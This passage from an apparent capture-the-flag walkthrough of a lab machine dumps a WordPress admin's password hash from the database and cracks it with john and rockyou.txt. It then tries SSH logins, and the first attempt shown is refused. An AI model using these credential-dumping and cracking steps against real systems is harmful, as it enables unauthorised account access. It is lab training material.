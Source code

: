 ```php
MariaDB [wordpress]> describe wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.001 sec)

```

now we will search for the information of the user.
```bash
select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email               | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. | wp-admin      | hagrid98@localhost.local |          | 2021-03-31 14:21:02 |                     |           0 | WP-Admin     |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.001 sec)

```
now we will execute a brute force attack in order to figure out what's the password for hash "$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc." using john and seclist.
```bash
❯ john -w:rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2023-04-20 15:49) 7.692g/s 11815p/s 11815c/s 11815C/s 753951..mexico1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```
according with john the password is password123.
now we have to figure out who is the owner of this password we have 2 potentials options.
```bash
www-data@Aragog:/home$ ls
ginny  hagrid98
```
so how we saw the port 22 is open so.
```bash
❯ ssh ginny@192.168.100.65
The authenticity of host '192.168.100.65 (192.168.100.65)' can't be established.
ECDSA key fingerprint is SHA256:Xy+Xj3BR8BLS4rk/l2jfAZmSh0d3m5zJXaB5QsUT3AA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.65' (ECDSA) to the list of known hosts.
ginny@192.168.100.65's password: 
Permission denied, please try again.
ginny@192.168.100.65's password:
```